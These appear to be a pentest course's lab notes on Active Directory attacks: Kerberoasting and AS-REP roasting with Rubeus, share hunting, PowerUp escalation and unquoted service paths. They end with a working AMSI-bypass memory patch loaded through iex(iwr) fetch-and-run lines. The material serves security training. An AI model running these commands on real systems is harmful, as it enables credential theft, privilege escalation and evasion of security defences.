 []: # Day 1 notes from Light Pentest LITE (Live Interactive Training Experience)
[]: # More information at https://7minsec.com/services/training/#lplite

# Where are we on the network?
```
nslookup -type=SRV _ldap._tcp.dc._msdcs.tangent.town
```

# DNS zone transfers
```
nslookup
set type=any
ls -d tangent.town
```
# Network share enumeration
```
import-module .\PowerHuntShares.psm1
mkdir dump
Invoke-HuntSMBShares -OutputDirectory dump
```

# Kerberoasting
Basic Kerberoasting
```
rubeus.exe kerberoast /simple
```
Kerberoasting with a side order of text output sauce:
```
rubeus.exe kerberoast /simple /outfile:kerberoast.txt
```

# ASREPRoasting
Classic style:
```
rubeus.exe asreproast
```
ASREPRoasting with clean output that's ready for hashcat to gnaw on:
```
rubeus.exe asreproast /format:hashcat /nowrap
```

ASREPRoasting with clean output that's ready for hashcat *and* text output sauce:
```
rubeus.exe asreproast /format:hashcat /nowrap /outfile:asreproast.txt
```

# Privilege escalation with PowerSploit
```
Import-Module .\PowerUp.ps1 
get-help Write-ServiceBinary -examples
```

# Unquoted service paths
Finding USPs from the command line:
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

Finding permissions on folders using icacls:
```
icacls "C:\first folder\second folder"
icacls "C:\first folder"
```

# Bypass AMSI
Source article: https://x4sh3s.github.io/posts/Divide-and-bypass-amsi

*1.txt*:
```
# 1.txt
$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
```

*2.txt*:
```
# 2.txt
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

*main.txt*:
```
# main.ps1
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

iex ( iwr http://localhost/1.txt -UseBasicParsing );
iex ( iwr http://localhost/2.txt -UseBasicParsing );
```
